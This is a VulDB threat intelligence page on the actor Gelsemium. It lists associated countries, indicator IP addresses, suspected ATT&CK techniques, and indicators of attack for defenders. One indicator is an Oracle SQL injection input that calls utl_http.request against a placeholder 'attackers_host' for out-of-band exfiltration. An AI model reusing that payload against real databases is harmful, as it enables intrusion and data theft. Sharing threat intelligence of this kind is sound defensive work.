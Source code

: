 # Gelsemium - Cyber Threat Intelligence

The indicators are related to [VulDB CTI analysis](https://vuldb.com/?doc.cti) of the actor known as [Gelsemium](https://vuldb.com/?actor.gelsemium). The activity monitoring correlates data from social media, forums, chat rooms, and darknet markets. It helps to determine associated actors, activities, intentions, emerging research, and attacks. Our unique predictive model is able to forecast activities and their characteristics.

Live data and more analysis capabilities are available at [https://vuldb.com/?actor.gelsemium](https://vuldb.com/?actor.gelsemium)

## Countries

These countries are directly (e.g. origin of attacks) or indirectly (e.g. access by proxy) associated with Gelsemium:

* CN
* US

## IOC - Indicator of Compromise

These indicators of compromise indicate associated network ressources which are known to be part of research and attack activities of Gelsemium.

ID | IP address | Hostname | Confidence
-- | ---------- | -------- | ----------
1 | 149.248.14.53 | - | High
2 | 210.209.72.180 | - | High

## TTP - Tactics, Techniques, Procedures

Tactics, techniques, and procedures summarize the suspected ATT&CK techniques used by Gelsemium. This data is unique as it uses our predictive model for actor profiling.

ID | Technique | Description | Confidence
-- | --------- | ----------- | ----------
1 | T1059.007 | Cross Site Scripting | High
2 | T1068 | Execution with Unnecessary Privileges | High

## IOA - Indicator of Attack

These indicators of attack list the potential fragments used for technical activities like reconnaissance, exploitation, privilege escalation, and exfiltration by Gelsemium. This data is unique as it uses our predictive model for actor profiling.

ID | Type | Indicator | Confidence
-- | ---- | --------- | ----------
1 | File | `/+CSCOE+/logon.html` | High
2 | File | `/public/login.htm` | High
3 | File | `iesfootprint.jsp` | High
4 | File | `print.php` | Medium
5 | Argument | `x_17` | Low
6 | Input Value | `11' AND utl_http.request('http://attackers_host/lalal')='1' GROUP BY panel_name)) --` | High

## References

The following list contains external sources which discuss the actor and the associated activities:

* https://github.com/eset/malware-ioc/tree/master/gelsemium

## Literature

The following articles explain our unique predictive cyber threat intelligence:

* [VulDB Cyber Threat Intelligence Documentation](https://vuldb.com/?doc.cti)
* [Cyber Threat Intelligence - Early Anticipation of Attacks](https://www.scip.ch/en/?labs.20201022)

## License

(c) [1997-2021](https://vuldb.com/?doc.changelog) by [vuldb.com](https://vuldb.com/?doc.about). All data on this page is shared under the license [CC BY-NC-SA 4.0](https://creativecommons.org/licenses/by-nc-sa/4.0/). Questions? Check the [FAQ](https://vuldb.com/?doc.faq), read the [documentation](https://vuldb.com/?doc) or [contact us](https://vuldb.com/?contact)!
